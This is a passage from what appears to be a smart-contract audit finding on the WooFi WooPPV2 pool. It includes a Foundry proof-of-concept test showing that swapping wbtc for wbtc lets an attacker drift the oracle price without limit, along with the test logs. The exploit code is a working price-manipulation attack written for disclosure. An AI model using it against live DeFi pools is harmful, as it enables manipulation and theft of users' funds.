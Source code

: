 ````WooPPV2.swap()```` doesn't forbid the case that ````fromToken == toToken == baseToken````, attackers can make any ````baseToken````'s price unboundedly drifting away by swapping with self.
        // top up the evil, in real case, the fund could be from a flashloan
        wbtc.mint(evil, 100e8);

        for (uint256 i; i < 10; ++i) {
            vm.startPrank(evil);
            uint256 balance = wbtc.balanceOf(evil);
            wbtc.transfer(address(pool), balance);
            pool.swap({
                fromToken: address(wbtc),
                toToken: address(wbtc),
                fromAmount: balance,
                minToAmount: 0,
                to: evil,
                rebateTo: evil
            });
            (uint256 pastPrice, bool feasible2) = oracle.price(address(wbtc));
            assertTrue(feasible2);
            uint256 drift = ((pastPrice - initPrice) * 1e5) / initPrice;
            console2.log("Unbound price drift in attack case: ", _toPercentString(drift));    
            vm.stopPrank();
        }
    }

    function _toPercentString(uint256 drift) internal pure returns (string memory result) {
        uint256 d_3 = drift % 10;
        uint256 d_2 = (drift / 10) % 10;
        uint256 d_1 = (drift / 100) % 10;
        uint256 d0 = (drift / 1000) % 10;
        result = string.concat(_toString(d0), ".", _toString(d_1), _toString(d_2), _toString(d_3), "%");
        uint256 d = drift / 10000;
        while (d > 0) {
            result = string.concat(_toString(d % 10), result);
            d = d / 10;
        }
    }

    function _toString(uint256 digital) internal pure returns (string memory str) {
        str = new string(1);
        bytes16 symbols = "0123456789abcdef";
        assembly {
            mstore8(add(str, 32), byte(digital, symbols))
        }
    }
}
```

And the logs:
```solidity
2024-03-woofi-swap\WooPoolV2> forge test --match-contract PriceManipulationAttackTest -vv
[⠆] Compiling...No files changed, compilation skipped
[⠰] Compiling...

Running 2 tests for test/foundry/PriceManipulationAttack.t.sol:PriceManipulationAttackTest
[PASS] testMaxPriceDriftInNormalCase() (gas: 158149)
Logs:
  Max price drift in normal case:  0.502%

[PASS] testUnboundPriceDriftInAttackCase() (gas: 648243)
Logs:
  Unbound price drift in attack case:  0.499%
  Unbound price drift in attack case:  0.998%
  Unbound price drift in attack case:  1.496%
````